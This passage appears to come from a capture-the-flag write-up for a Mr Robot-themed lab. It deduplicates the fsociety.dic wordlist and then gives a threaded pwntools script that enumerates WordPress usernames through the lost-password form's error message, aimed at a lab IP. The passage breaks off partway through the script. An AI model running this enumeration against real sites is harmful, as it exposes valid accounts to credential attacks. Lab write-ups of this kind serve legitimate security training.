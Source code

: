 ```python
with open("fsocity.dic", "r") as f:
    lines = f.readlines()
unique_lines = set(lines)
with open("fsociety_uniquelines.txt", "w") as f:
    for line in unique_lines:
        f.write(line)
```

This shrunk it considerably - from 858,160 lines to just 11,451. We can see that a POST request with a non-existant username yields a div with `id='login_error'`, which we can use to invalidate a username's existance:

```html
<div id="login_error">
    <strong>ERROR</strong>: Invalid username or e-mail.<br/>
</div>
```

## Foothold

Using this information as well as the headers from this request, I wrote a (kind of janky) python script using pwntools that will query the login page, using the filtered `fsociety.dic` as a wordlist:

```python
from concurrent.futures import ThreadPoolExecutor
from pwn import *
import threading
import os
import logging

logging.getLogger('pwnlib').setLevel(logging.CRITICAL)
devnull = os.open(os.devnull, os.O_RDWR)
os.dup2(devnull, 2)

print_lock = threading.Lock()
count_lock = threading.Lock()
def checkname(username):
    global total_requests
    global invalid_responses
    global possible_hits
    r = remote('10.10.190.225', 80)
    r.send('POST /wp-login.php?action=lostpassword HTTP/1.1\r\n'
            'Host: Host: 10.10.190.225\r\n'
            'Content-Type: application/x-www-form-urlencoded\r\n'
            'User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/108.0.5359.125 Safari/537.36\r\n'
            'Cookie: wordpress_test_cookie=WP+Cookie+check\r\n'
            'Content-Length: {}\r\n\r\n'
            'user_login={}&redirect_to=&wp-submit=Get+New+Password\r\n'.format(len(username) + 11, username))
    with count_lock:
        total_requests += 1
        if total_requests % 100 == 0:
            with print_lock:
                print('Total requests:', total_requests)
                print('Invalid responses:', invalid_responses)
                print('currently with ', len(possible_hits), 'possible usernames')
    response = r.recvall()
    if not b'login_error' in response:
        with print_lock:
            print(f'possible hit --> {username} ')
            possible_hits.append(username)
    else:
        with count_lock:
```
